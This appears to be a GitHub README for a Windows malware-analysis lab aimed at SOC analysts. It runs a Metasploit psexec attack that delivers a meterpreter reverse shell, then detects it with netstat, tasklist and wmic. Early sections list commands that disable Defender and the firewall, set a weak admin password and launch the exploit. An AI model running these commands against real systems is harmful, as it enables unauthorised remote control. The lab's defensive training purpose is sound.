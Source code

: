 # Windows Malware Analysis Lab via Metasploit

This lab demonstrates a **realistic malware simulation using Metasploit** and focuses on **detection and analysis techniques within Windows CLI**. It's intended for **SOC analysts**, **incident responders**, and **blue teamers** looking to sharpen their skills in post-exploitation process hunting.

---

## Lab Setup

- **Attacker Machine**: Kali Linux
- **Target**: Windows VM (Administrator Access)
- **Tool Used**: Metasploit (psexec module with meterpreter reverse shell)

---

## Phase 1: Prepare Windows for Attack

### Disable Defender and Firewall

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
netsh advfirewall set allprofiles state off
net user Administrator password1234
ipconfig
```

 ![Disable Defender](./01_disable_defender.png)

---

## Phase 2: Attack from Kali using Metasploit

### Setup Exploit and Launch Payload

```bash
msfconsole -q
use exploit/windows/smb/psexec
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST <Windows_IP>
set SMBUSER Administrator
set SMBPASS password1234
exploit
```

 ![Metasploit Attack Setup](./02_msf_attack_setup.png)

---

## Phase 3: Analyze on Windows Machine

### Step 1: Check for Open Connections

```powershell
netstat -naob
```

 ![Netstat Connections](./03_netstat_ports.png)

---

### Step 2: Resolve IP to Process ID

```powershell
netstat -f
tasklist /m /fi "pid eq 1476"
```

 ![Modules via Tasklist](./04_netstat_pid_modules.png)

---

## Understanding the DLL Modules in a Malicious PowerShell Process

In the screenshot below, we observe a PowerShell process (`powershell.exe`) with **PID 1476**, and several associated **dynamic link libraries (DLLs)** loaded into its memory space:

 ![PID Modules - tasklist Output](./06_tasklist_dll.png)

These DLLs — such as `ntdll.dll`, `wow64.dll`, `wow64base.dll`, `wow64win.dll`, `wow64con.dll`, and `wow64cpu.dll` — are **core components of the Windows operating system** and are **not inherently malicious**.

> ❗ **Does every malicious payload load these exact DLLs?**  
> No. Malware often injects itself into legitimate processes or loads additional, custom libraries at runtime.

However, this particular set of DLLs represents the **minimum runtime environment** required for a PowerShell-based payload to:

- Interface with system calls (`ntdll.dll`)  
- Operate in a 32-bit compatibility layer on a 64-bit OS (`wow64*.dll`)  
- Enable shell command execution and remote control

---

### Key Insight for Analysts

The presence of these DLLs alone **does not confirm malicious behavior**. However, when correlated with:

-  **Unusual parent processes** (e.g., spawned from `cmd.exe`)
-  **Outbound connections** to external IPs (e.g., port `4444`)
-  **Encoded or obfuscated PowerShell commands**

…it significantly increases confidence that the process is tied to a **reverse shell or post-exploitation activity**.

This type of analysis reinforces the need for **multi-dimensional threat hunting**, combining:
- Process forensics
- Network monitoring
- Command-line tracing
- Module introspection

to detect stealthy malware that evades signature-based defenses.

---
---

### Step 3: Dig Deeper with WMIC

```powershell
wmic process where processid=1476 get commandline
wmic process get name,parentprocessid,processid | select-string 1476
```

 ![WMIC Process Details](./05_wmic_analysis.jpeg)

---

## Key Takeaways

- `netstat -naob` helps detect live reverse shell sessions (e.g., port 4444)
- `tasklist` and `wmic` provide process visibility and help identify injected/malicious activity
- Detection of PowerShell-based malware is possible through **manual PID tracking and command-line tracing**

---

## Author

**Venkata Naveen Kumar Prabhuleti**  
_Masters in Cybersecurity Analytics and Operations @ Penn State_  
[LinkedIn](https://www.linkedin.com/in/naveen-kumar-9b55a0154/)

---

## Folder Contents

```
Windows_Backdoor_Analysis_Lab/
├── 01_disable_defender.png
├── 02_msf_attack_setup.png
├── 03_netstat_ports.png
├── 04_netstat_pid_modules.png
├── 05_wmic_analysis.jpeg
├── 06_tasklist_dll.png
└── README.md
```

## License

MIT License

